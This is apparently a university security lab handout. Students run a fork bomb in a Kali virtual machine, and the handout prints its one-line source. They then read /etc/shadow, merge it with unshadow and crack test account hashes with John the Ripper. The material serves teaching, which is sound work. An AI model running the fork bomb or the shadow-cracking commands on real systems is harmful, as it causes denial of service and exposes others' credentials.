

# Lab 01: Malware and System Attacks

This week, we learned about the different types of malware and attacks that systems can be exposed to. In this lab, we will be infecting a virtual machine with malware and performing a basic password hash attack on a Kali machine. Please make sure you have completed all of the material in the lessons tab before attempting this lab.

The table of contents for this lab is found below.

1. Part 1. Workstation Setup <br>
2. Part 2. Malware <br>
3. Part 3. Password Attack <br>
    3.1. Installing john-the-ripper <br>
4. Part 4. Submission <br>

Create a copy of this google document [lastname_lab01](https://docs.google.com/document/d/1M9h_KHF_NKUFrrsBykv2vDBkG_xFBxh_-aaGp5nC344/edit?usp=sharing) (File > Make a Copy) to record all of your assignment answers in.

> :warning: Failure to use answer document properly will result in a 10pt deduction from final score.


## Part 1: Workstation Setup 

### Installing VMWare

**Step 1.1.** Log into Brightspace and navigate to `Lab#01` (Assignments > Lab#01). There you should see the link `VMware Store` under the assignment instructions section. Click on that link to navigate to the VMware store. It's here you'll be able to download VMware workstation (windows) or VMware Fusion (macOS).

**Step 1.2.** At this point you should have successfully logged into the VMware store, downloaded the VMware version that relates to your OS, and installed VMware on your host machine.

 :interrobang: Question 1 - Provide a screenshot of VMware running.

#### Installing Kali

* VMWare 
* [The Kali Linux (64 bit), Penetration Testing Distribution](https://www.kali.org/downloads/) - [file](https://drive.google.com/file/d/1QVz9VUvuDyLbiYnGz_dh2g7MfcIpWKXI/view?usp=sharing)

First lets set up our Kali machine. We'll be doing a fresh install of an operating system ~ like you might do with a windows, macOS, or linux .iso file.

**Step 1.1** Follow the below instructions to create a new VM and install Kali on it.

Windows 10 - [VMWare Workstation](https://www.nakivo.com/blog/install-kali-linux-vmware/) - [PDF](files/file1.pdf) <br>
macOS - [VMWare Fusion](https://geekflare.com/kali-linux-installation-guide-vmware/) - [PDF](files/file2.pdf)

Use the below specifications and options to create your VM:

* Memory Size: 512 MB minimum; 1024 MB is recommended (You may allocate more RAM if your system can handle it. It is recommended that you use no more than 50% of your system's RAM. We will be running several virtual machine's at one time and you may need to optimize your virtual machines memory usage.)
* User name: csf434-student OR csf534-student
* Password: pa55word


**Step 1.2** Once installed and logged in, you should be greeted with the Kali desktop. <br>



> As always, you should take a snapshot of your fresh install in the event that your VM becomes corrupted along the way.

**Step 1.3** Open a terminal on your Kali machine and run the below command:

```text
csf432-student@kali:~$ whoami
```

 :interrobang: Question 2: Include a screenshot of your fresh Kali install.<br>
 :interrobang: Question 3: Make a **snapshot** of your fresh Kali install and include a screenshot of your snapshot.<br>
 :interrobang: Question 4: What does taking a snapshot do and how does it benefit you.<br>

## Part 2 - Malware

:warning: Make sure all of these operations performed in this lab take place **inside your VMWare virtual machines**. Please take extra care not to subject your host machines to the malware and attacks performed in this lab.

After this weeks lecture you should have a good theoretical understanding of what malware is and how it works. Now, it's time to see how malware might behave in the real world.

Log **into your Kali machine** and visit the CSF 434/534 course website. Navigate to [this weeks assignment](https://github.com/mikeconti/csf534-434-spring2021/tree/master/labs/lab01) and download this [innocent looking file](https://dl.dropboxusercontent.com/s/ao7w9br5bcar9ar/fork.bat?dl=0).

:interrobang: Question 5: Provide a screenshot of your successful file download.

Execute the file that you've downloaded. You can do this by opening your terminal, going to the directory that the file was downloaded to, and executing the fork.bat file with the below syntax.

 ```bash
$ . <filename>
```
> In the real word, a helper scrip would be applied to the executable that would either launch it the at download time or by double clicking on the file. Here, we are simply manually launching the executable. 

:interrobang: Question 6: Describe in detail what happened. <br>

:interrobang: Question 7: What type of malware would you give the attack your virtual machine just suffered. <br>

:interrobang: Question 8: What measures could have been taken to prevent this attack? <br>

This `Denial of Service` attack is extremely elementary and can be easily deployed by a highschool student. The code for the fork bomb that you just ran in your virtual machine can be found below:

```txt
:(){ :|: & };:
```

A more readable version of this exact program for the programmers in the crowd is:

```txt
bomb() { 
 bomb | bomb &
}; bomb
```

That is it. One line of recursive code. The `bomb` function calls itself, piping its output through itself again and this way fills up your processor and primary memory with requests.

It is not harmful, beside the fact that you may have to reboot your computer the hard way because it becomes unresponsive. This is the type of attack you can expect a very low level threat actor (script kiddie) to deploy.

## Part 3 - Password Attack

In this week's reading the dangers of *poor password choices* was highlighted because of its vulnerabilities to brute force attacks of known hash values. As you know, the plain text representations of user passwords are not stored in a file but instead the hash values of those passwords are. For an additional layer of security, passwords are protected in the `/etc/shadow` file which is a highly restricted file.

However, these protective measures are not sufficient once an unauthorized user has access to a system. In this exercise, we'll be using a popular and open source password cracker named **jack-the-ripper**.
 
Create the following accounts using the commands below.
 
 ```bash
$ sudo useradd <username>
$ sudo passwd <username>
```
 

 Account#01 username: *yourname*  (where *yourname* is your first name) <br>
 Account#01 password: yourname2021 <br>

 Account#02 username: mike <br>
 Account#02 password: apple <br>

 Account#03 username: john <br>
 Account#03 password: Lik3s2BeS@fe! <br>

 :interrobang: Question 9: Once your accounts have been created, execute the command below and provide a screenshot of the users you've created. If successful, your newly created users should be on the bottom. 

 ```bash
$ cat /etc/passwd
```
 
 Notice how there are no password hashes in the `/etc/passwd` file? That's because they're protected in the `/etc/shadow` file. 

Execute the below command and take a screenshot of the accounts you've just created and their hashes.

```bash
$ sudo cat /etc/shadow 
```

:interrobang: Question 10: What are we looking in inside of the `/etc/shadow` file?

### 3.1. Installing john-the-ripper

 Now that we have an understanding of the accounts on this system and where their passwords are stored, let's install the command line tool *john-the-ripper* and attack them. This can be accomplished by running:

 ```bash
$ sudo apt-get install john
```

:interrobang: Question 11: Submit a screenshot of your successful *john-the-ripper* install.

Because we need the contents of the shadow file to be in a visible place that we can crack, lets merge the contents in our `/etc/passwd` and `/etc/shadow` files and save that output in a file named **targetFile** with the command:

```bash
$ sudo /usr/sbin/unshadow /etc/passwd /etc/shadow > targetFile
```

Now, we have a file named **targetFile** with username and password hash pairs in an accessible location, it is vulnerable to an attack. Run:

```bash
$ sudo /usr/sbin/john targetFile
```
Let john-the-ripper run for about one minute.

:interrobang: Question 12: Submit a screenshot of the passwords john-the-ripper was able to solve. 

Terminate john-the-ripper with **CTRL + C**

:interrobang: Question 13: Were all of the user passwords that we created cracked? <br>

:interrobang: Question 14: Consider the very possible scenario where a threat agent gains unauthorized access to a systems machine, makes a copy of the `/etc/shadow` file and sends it to an external location with very high processing power (high CPU, GPU and RAM system clusters). What would be a likely outcome, even if moderate password security policies were enforced?


## Part 4. Submission

Convert your answer document into a **.PDF** and upload a single `lastname_lab1.pdf` answer document containing all of your answers to the assignment questions to Sakai through the attachment uploads option.
